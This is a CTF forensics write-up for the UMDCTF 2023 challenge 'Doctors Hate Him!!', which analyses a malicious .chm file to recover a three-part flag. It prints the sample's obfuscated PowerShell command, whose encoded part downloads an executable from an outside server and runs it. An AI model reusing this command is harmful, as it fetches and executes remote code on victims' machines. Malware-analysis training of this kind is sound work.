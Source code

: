```yaml
---
title: "UMDCTF 2023 - Forensics[Doctors Hate Him!!]"
date: 2023-05-01T19:11:46+02:00
author: "Kira"
description: "Writeups Doctors hate him!! Challenge of the UMDCTF 2023"
images: []
resources:
featuredImage: "images/umdctf/banner_2023.png"
featuredImagePreview: "images/umdctf/banner_2023.png"

tags: ["writeups", "ctf", "umdctf", "forensics"]
categories: ["writeups"]

lightgallery: true

toc:
  auto: false
---
```



<!--more-->
![Description](images/umdctf/doctors_hate_him/Untitled.png "Description of the challenge")

## Introduction

The description of this challenge is not very clear, except that the title makes us think of a malware.

Having recently heard about the new feature on VirusTotal regarding malware analysis, I thought that this was the perfect opportunity to test it out 😃

## Investigation

So we go to **[virustotal.com](http://virustotal.com/)** and start by uploading the file Doctors-Hate-Him.chm.

This file is immediately detected as malware.

![Detection](images/umdctf/doctors_hate_him/Untitled%201.png "Virus total detections")

We can look at the Behavior tab to see the different information reported by VirusTotal. We can see that this malware triggers several detection rules described below:

![rules](images/umdctf/doctors_hate_him/Untitled%202.png "Rules Matched")

We can see the different connections made by this malware to external sources:

![links](images/umdctf/doctors_hate_him/Untitled%203.png "External sources connections of the malware")

Here, I decide to go and check what is at the root of this HTTP server that is used to make the file explorer.exe available.

![http](images/umdctf/doctors_hate_him/Untitled%204.png "Looking at the root of the HTTP server")

By looking at the present.txt file, we can see what appears to be a string of characters encoded in base64.

![decode](images/umdctf/doctors_hate_him/Untitled%205.png "Base64 String decode")

Once decoded, it gives us what appears to be the third part of the flag.
(So we understand that we still need to find two parts of the flag.)

```powershell
Sliver really does sound like a pokemon... anyways pew pew! Part 3: _malware_back_bozo}
```

In the Relationships Tabs, we can see that the malware has some links with others files

![Relations](images/umdctf/doctors_hate_him/Untitled%206.png "Relationships of the malware")

We can find the URL of the HTTP server and also the embedded files, such as the depressed_pokemon_trainer.png file.

So, I decide to open the malware with 7zip to see what it hides in its depths. 😄

![extract](images/umdctf/doctors_hate_him/Untitled%207.png "Extract files of the malware")

We can see that it contains a test.html file that catches my attention.
First, I check what it contains by opening it with Notepad++ to make sure it's not malicious (you never know 😁).

![code](images/umdctf/doctors_hate_him/Untitled%208.png "Code of test.html")

It also contains a string of characters in base64 which, once decoded, gives us:

```powershell
UMDCTF{1997_called_

```

Perfect, we have the first part of the flag. There's one more left.

I also notice on the page that an encoded PowerShell command is present:

```powershell
cmd.exe,/c powershell.exe -ExecutionPolicy Bypass -NoLogo -NoProfile -EncodedCommand SQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBVAHIAaQAgAGgAdAB0AHAAOgAvAC8AZABuAHMALQBzAGUAcgB2AGUAcgAuAG8AbgBsAGkAbgBlADoANgA5ADYAOQAvAGUAeABwAGwAbwByAGUALgBlAHgAZQAgAC0ATwB1AHQARgBpAGwAZQAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAUwB0AGEAcgB0AC0AUAByAG8AYwBlAHMAcwAgAGUAeABwAGwAbwByAGUALgBlAHgAZQA7ACAAPQAnAGcAdQByAGwAXwBqAG4AYQBnAF8AZwB1AHIAdgBlACcA
```

To correctly decode the command, we will go to Cyberchef: **[https://gchq.github.io/CyberChef/](https://gchq.github.io/CyberChef/)**

Enter the encoded string of characters and apply the following filters to decode the command correctly:

![filters](images/umdctf/doctors_hate_him/Untitled%209.png "CyberChief Filters")

it gives us : 

![decode](images/umdctf/doctors_hate_him/Untitled%2010.png "Encrypted powershell command decode")

The last part of the command makes me think of a part of the flag.
This would give:

```powershell
UMDCTF{1997_called_gurl_jnag_gurve_malware_back_bozo}
```

When trying to validate the flag, it is rejected.
I think and realize that the second part of the flag makes no sense.
So I thought about trying a classic encryption: ROT13.

Bingo 🙂 it gives us: they_want_their

The final flag is:

```powershell
UMDCTF{1997_called_they_want_their_malware_back_bozo}
```